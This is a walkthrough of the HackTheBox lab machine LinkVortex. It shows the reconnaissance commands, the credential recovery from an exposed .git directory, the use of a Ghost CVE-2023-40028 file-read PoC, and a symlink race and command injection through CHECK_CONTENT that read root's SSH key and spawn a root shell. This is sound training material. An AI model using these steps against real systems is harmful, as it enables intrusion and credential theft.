



---
tags:
  - Linux
  - HTTP
  - Exposed .git
  - CVE
  - Race condition
---

... is a easy HTB machine which exposes a `.git` directory in a `VHost`, which stores credentials to a backend-login. There, a vulnerable `CMS` allows you to read arbitrary files using a `CVE`, which you can use to read a config file which holds `ssh` credentials. For the privilege escalation, a binary has a `race condition` where a symlink to `root`'s `ssh` key allows you to read it.

### Reconnaissance
The tool `nmap` is used to do the initial reconnaissance of any target, as it very reliably sends packets to specific ports of the target to verify if they are open, closed, or filtered. The following command is used as a standard `nmap` scan:
```bash
sudo nmap -sCV $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: optional, but makes the scan a bit faster and stealthier, as no TCP connect() is used.
# -sC (or --script=default): uses the default scripts of nmap. can quickly discover simple vulnerabilities, such as anonymous logins.
# -sV: further scans open ports to determine the actual service which is running on them, as an open port 80 does not directly imply a HTTP service.
```

the output of `nmap` tells us this:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
|_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://linkvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This is a very typical setup of a web-vulnerability type CTF, where the `http` service allows you to execute remote code on the machine, to allow you to find credentials for `ssh`. The output of the `http-title` `nmap` script tells us that the domain name `linkvortex.htb` is present. To quickly edit the `/etc/hosts` file for local DNS name resolution without a public DNS server, the following command appends an entry to that file:
```bash
echo "$IP linkvortex.htb" | sudo tee --append /etc/hosts
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# echo "...": writes the specified string into STDOUT (terminal)
# | : redirect (pipe) the STDOUT of the left command into the STDIN of the right command
# sudo tee --append /etc/hosts: write the received STDIN into a file without overwriting it. requires sudo, as that file is critical to the system  
```

After visiting `http://devvortex.htb`, i see a home-page for `BitByBit Hardware`, which shows information about computer parts in various blog posts. The `view-source` and the `Developer Tools` do not reveal anything interesting. Almost all content on this site seems to be static data. The bottom of the page does show a note which says `Powered by Ghost`, which indicates that `Ghost` is used as a `CMS` to create content on this page.

To find more endpoints that may be hidden in the `view-source`, i use `ffuf` to employ forceful browsing using this command:
```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u "http://linkvortex.htb/FUZZ" -fs 0 -mc all
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -w: specify wordlist file
# -u: URL of the target. the FUZZ word gets replaced with each entry of the wordlist.
# -fs: filter by response size, as all responses with 0 are "404" errors.
# -mc: accept any response code
```

The most notable findings in this attack were the `/robots.txt` and the `/sitemap.xml` endpoints:

- `sitemap.xml`: Tells search engines what should be found. Includes all static content which i have already discovered.
- `robots.txt`: Tells search engines what should NOT be found. It reveals the endpoints `/ghost`, `/p`, `/email`, `/r`. All of these endpoints seem to serve a `404 Not found` response, but the `/ghost` endpoint shows me a login form!

I tried default credentials such as `root@linkvortex.htb:root`, but it told me that there is no user `root` with that email address. Trying `admin@linkvortex.htb` with default passwords tells me that they are incorrect, confirming that this is a valid user. SQL-injection also does not seem to work here.

Due reaching a dead-end, and due to the host name `linkvortex.htb` being used, i decided to also do some `VHost` fuzzing:
```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -H "Host: FUZZ.linkvortex.htb" -u http://linkvortex.htb -fs 230
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -w: specify wordlist file
# -H: add specific header. Here, the header "FUZZ.linkvortex.htb" is chosen. the FUZZ word is replaced by each entry of the wordlist!
# -u: URL of the target
# -fs: filter by response size
```

This did find the additional VHost `dev.linkvortex.htb`! I also add this domain to the `/etc/passwd` file using this command:
```bash
sudo sed -i "s/$IP linkvortex.htb/$IP linkvortex.htb dev.linkvortex.htb/" /etc/hosts
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: required, as we are editing /etc/hosts
# -i: edit the file in-place and overwrite it
# "s/old_word/new_word/": replaces each occurance of old_word with new_word
# /etc/hosts: file we want to edit
```

This new sub-domain displays an `"Launching soon"` message with no way of interacting with it. This is why i try to find more endpoints by using another forceful browsing attack:
```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u "http://dev.linkvortex.htb/FUZZ" -fs 196
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -w: specify wordlist file
# -u: URL of the target. the FUZZ word gets replaced with each entry of the wordlist.
# -fs: filter by response size, as all responses with 196 are "404" errors.
```

This reveals that there is an exposed `/.git` directory!

### Initial Exploitation
An exposed `/.git` directory should immediately ring alarm bells, as that can possibly include the whole applications source code. To recursively download all files, i install the tool `git-dumper` as follows:
```bash
python3 -m venv venv
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -m venv: creates a virtual python environment named venv, to download python packages. it can be deleted afterwards, so no changes are made
```

```bash
source venv/bin/activate
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# activates the virtual environment in the current bash
```

```bash
pip3 install git-dumper
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# uses venv/bin/pip3 to install git-dumper
```

It can then be used as follows (stores files in directory `loot`):
```bash
git-dumper http://dev.linkvortex.htb/.git loot
```

The `loot` directory now displays the whole source code to the `ghost` application! I have looked through it but didn't seem to find anything of use, besides the location of the `config` file, which is `/var/lib/ghost/config.production.json` (inside `Dockerfile.ghost`). Therefore, i issue an `git status` to see if any changes are made without them being pushed. Surely enough, the file `ghost/core/test/regression/api/admin/authentication.test.js` was changed. To find out what was changed, i issue `git diff`. It turns out that the password `thisissupersafe` was removed and the password `OctopiFociPilfer45` was added! I try both of these passwords against the `ghost` back-end login with the account `admin@linkvortex.htb`. The password `OctopiFociPilfer45` lets me log in!

In the settings tab of the `ghost` back-end, i find a `About Ghost` button, which reveals it's version to be `5.58.0`. Googling this version reveals `CVE-2023-40028` which is an arbitrary file read vulnerability. It involves the sym-links within ZIP files which are uploaded. If a `ZIP` file has a `test.png` for example, with a soft-link `(ln -s)` to `/etc/passwd`, the `ghost` instance will open its own `/etc/passwd` instead of the `test.png` image!

Abusing this manually can be very tedious, so i simply use the [PoC from this GitHub](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028). I download it using `git clone https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028.git`, and then i use it as follows:
```bash
./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb
```
This let's me input any arbitrary file which i can read. From the `Dockerfile.ghost` i was able to find the location of the `/var/lib/ghost/config.production.json` file, so i try to read that. This shows me the very interesting line:
```json
"auth": {
    "user": "bob@linkvortex.htb",
    "pass": "fibber-talented-worth"
}
```
I try to access `bob`'s `ssh` with the password `fibber-talented-worth` and it works! This eliminates the need for `Lateral Movement` and i can instantly try to elevate my privileges!

### Privilege Escalation
I try the three main privilege escalation vectors:

- `sudo -l`: mis-configured `sudoer` file
- `netstat -tulnp`: hidden services only accessible via localhost
- `id`: user belonging to a weird group

`bob` is allowed the following command as `sudo`:
```bash
(ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```
The content of `clean_symlink.sh` reveals the following:
```bash
#!/bin/bash
QUAR_DIR="/var/quarantined"
if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi
LINK=$1
if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi
if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```
This binary is designed to remove the flaw of the previous `CVE`. If a `.png` has a sym-link to a directory which includes `etc` or `root`, the sym-link is removed. Otherwise, it is moved to `/var/quarantined`. If the `CHECK_CONTENT` variable is set to true, it additionally uses `cat` on the file which is quarantined.

This means if a sym-link is pointing to `/root/.ssh/id_rsa`, the link is removed due to the `root` in the name. The problem with this script is that there is a small time period between the moving of the sym-link to `/var/quarantined` and the reading of it using `cat`. A race-condition may be abused by using this binary as root on a normal sym-link, while constantly creating a sym-link from `/var/quarantined` to `/root/.ssh/id_rsa`.

This can be achieved by first creating a normal sym-link to a file which does not include `root` or `var` in its name (it does not need to exist):
```bash
ln -s /test ./test.png
```
And in another terminal, the sym-link from `/var/quarantined/test.png` to `/root/.ssh/id_rsa` can be created in an endless-loop as follows:
```bash
while true; do ln -sf /root/.ssh/id_rsa /var/quarantined/test.png; done
```
Now, using the binary moves the `test.png` to `/var/quarantined`, and before it is read using `cat`, the sym-link is changed:
```bash
CHECK_CONTENT=true sudo /usr/bin/bash /opt/ghost/clean_symlink.sh ./test.png
```
This uses `cat` on effectively `/root/.ssh/id_rsa`, allowing you to save the file in a `root-key` (use `chmod 400 root-key` before!) and use it to gain `root` access by issuing `ssh -i root-key root@localhost`

#### Alternative way
It turns out that the `CHECK_CONTENT` variable can be an arbitrary command, as it gets parsed in `if $CHECK_CONTENT;then`. Issuing this command simply starts a `bash` as root:
```bash
CHECK_CONTENT=bash sudo /usr/bin/bash /opt/ghost/clean_symlink.sh test.png
```

### Summary

Below is a visualized summary of the exploitation steps used in this machine to gain RCE.



The privilege escalation to the user `root` worked as follows:



Alternatively, OS-command injection can be abused on the arbitrary user input:

